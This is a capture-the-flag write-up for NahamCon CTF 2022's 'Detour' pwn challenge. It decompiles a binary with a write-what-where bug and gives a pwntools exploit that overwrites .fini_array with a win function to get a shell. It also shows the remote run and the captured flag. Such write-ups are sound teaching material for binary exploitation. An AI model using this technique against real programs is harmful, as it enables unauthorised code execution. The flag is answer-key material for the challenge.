 # NahamCon CTF 2022

## Detour

> write-what-where as a service! Now how do I detour away from the intended path of execution?
>
> Author: @M_alpha#3534
>
> [`detour`](detour)

Tags: _pwn_ _x86-64_ _write-what-where_ 


## Summary

One-shot _write-what-where_ to overwrite `.fini_array` with _win_ function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No RELRO--every time it's `.fini_array`.

Just overwrite `.fini_array` with a _win_ function if it exists (or grow your own).


### Decompile with Ghidra

```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  undefined8 local_20;
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("What: ");
  __isoc99_scanf(&DAT_00402013,&local_20);
  getchar();
  printf("Where: ");
  __isoc99_scanf(&DAT_0040201f,&local_18);
  getchar();
  *(undefined8 *)((long)&base + local_18) = local_20;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

`*(undefined8 *)((long)&base + local_18) = local_20;` is a _write-what-where_.

```c
void win(void)
{
  system("/bin/sh");
  return;
}
```

And there's the _win_ function.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./detour', checksec=False)

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 32549)
else:
    p = process(binary.path)

p.sendlineafter(b'What: ', str(binary.sym.win).encode())
p.sendlineafter(b'Where: ',str(binary.get_section_by_name('.fini_array').header.sh_addr - binary.sym.base).encode())
p.interactive()
```

Overwrite `.fini_array` with the location of the function `win`.

> _Where_ needs to be less `base`, since `base` is added to `where` in `*(undefined8 *)((long)&base + local_18) = local_20;`

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to challenge.nahamcon.com on port 32549: Done
[*] Switching to interactive mode
$ cat flag.txt
flag{787325292ef650fa69541722bb57bed9}
```
